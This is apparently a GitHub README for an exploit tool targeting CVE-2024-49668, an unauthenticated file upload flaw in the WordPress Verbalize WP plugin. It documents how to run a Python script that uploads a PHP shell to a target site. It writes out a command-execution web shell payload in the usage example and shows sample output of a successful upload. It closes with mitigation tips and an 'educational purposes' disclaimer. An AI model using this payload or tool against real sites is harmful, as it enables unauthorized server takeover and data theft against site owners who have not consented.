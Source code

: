 # 🚨 CVE-2024-49668: WordPress Verbalize WP Plugin Arbitrary File Upload Vulnerability

## 📋 Overview

**CVE-2024-49668** is a critical vulnerability in the WordPress Verbalize WP plugin versions 1.0 and below. This vulnerability allows unauthenticated attackers to upload arbitrary files, including web shells, to the web server. The issue arises due to insufficient input validation and file type restrictions during file upload.

### Details

- **Published:** 2024-10-23
- **Updated:** 2024-10-23
- **Title:** WordPress Verbalize WP plugin <= 1.0 - Arbitrary File Upload vulnerability
- **Description:** Unrestricted Upload of File with Dangerous Type vulnerability in Admin Verbalize WP Upload a Web Shell to a Web Server. This issue affects Verbalize WP from n/a through 1.0.
- **CWE:** [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- **CVSS Score:** 10.0 (Critical)
- **Vector String:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

## 🛠️ Exploit Script

This Python script exploits the CVE-2024-49668 vulnerability to upload a shell file to the target WordPress site using the Verbalize WP plugin.

### Features

- **Automated Vulnerability Check:** The script verifies if the target site is vulnerable by checking the plugin version in `readme.txt`.
- **File Upload:** Uploads a PHP shell file to the target site.
- **Path Extraction:** Extracts and displays the full path to the uploaded shell file.

## 🧰 Requirements

- Python 3.x
- `requests` library

Install the required library using pip:

```sh
pip install requests
```

## 🚀 Usage

```sh
usage: 
CVE-2024-49668.py [-h] -u URL [-s SHELL]

Execute a POST request to a WordPress site.

options:
  -h, --help         show this help message and exit
  -u, --url URL      Target URL
  -s, --shell SHELL  Shell code to upload
```

### Example

By default, the script will upload a PHP shell that executes `phpinfo()`. 

```sh
python CVE-2024-49668.py -u http://target.com
```

You can also specify a custom PHP shell code to be uploaded:

```sh
python CVE-2024-49668.py -u http://target.com -s "<?php system($_GET['cmd']); ?>"
```

## 📄 Script Output

```plaintext
The site is vulnerable. Exploiting version: 1.0. Uploading file...
Shell path: /wp-content/uploads/audio-text/4091/audio-demo.php
Exploit By: Nxploit, Khaled ALenazi
```

## 📚 Additional Information

### Vulnerability Impact

The CVE-2024-49668 vulnerability enables attackers to gain full control over the target server by uploading malicious files. Exploiting this vulnerability can lead to severe consequences including data breaches, unauthorized access, and potential defacement of the website.

### Best Practices for Mitigation

To protect your WordPress site from this vulnerability, it is recommended to:

- Update the Verbalize WP plugin to the latest version that addresses this issue.
- Implement strong file upload validations to restrict file types and sizes.
- Regularly monitor your server logs for any suspicious activities.

### Legal Disclaimer

This tool is intended for educational purposes only. Unauthorized use of this tool against websites without explicit permission from the owner is illegal. The authors are not responsible for any misuse or damage caused by this tool.




---
*Created on 2025-03-22 by Nxploited , Khaled alenazi*
